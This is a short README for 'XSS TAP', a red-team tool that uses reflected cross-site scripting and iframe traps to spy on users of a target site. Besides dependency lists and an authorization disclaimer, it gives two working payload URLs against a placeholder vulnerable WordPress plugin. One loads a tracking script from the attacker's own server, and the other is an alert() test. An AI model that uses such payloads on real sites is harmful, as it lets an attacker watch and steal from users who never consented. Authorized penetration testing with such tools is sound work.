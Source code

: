 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors

Generator ones:
dataframe_image
fpdf


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27http://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
